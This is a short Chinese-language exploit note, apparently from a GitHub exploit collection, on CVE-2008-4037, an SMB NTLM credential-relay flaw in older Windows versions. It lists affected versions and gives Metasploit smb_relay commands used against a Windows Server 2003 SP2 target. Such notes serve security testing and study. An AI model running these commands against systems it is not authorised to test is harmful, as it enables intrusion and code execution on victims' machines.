 ### CVE-2008-4037

#### 描述

通过远程SMB服务器可以重播客户端用户的NTLM凭据在客户端计算机上执行任意代码

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows XP          |                  |         | SP2    |                    |
| Windows XP          |                  |         | SP3    |                    |
| Windows Server 2003 |                  |         | SP1    |                    |
| Windows Server 2003 |                  |         | SP2    | &#10004; |
| Windows 2000        |                  |         | SP4    |                    |
| Windows Server 2008 | X64/X86          |         |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         |        |                    |

#### 利用方式

使用msf 测试系统Windows Server 2003 SP2 x86

```
use exploit/windows/smb/smb_relay
set SMBHOST 192.168.1.14 #目标IP
run
```

![image-20200823142846532](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2008-4037_win2003_x86_msf.png)

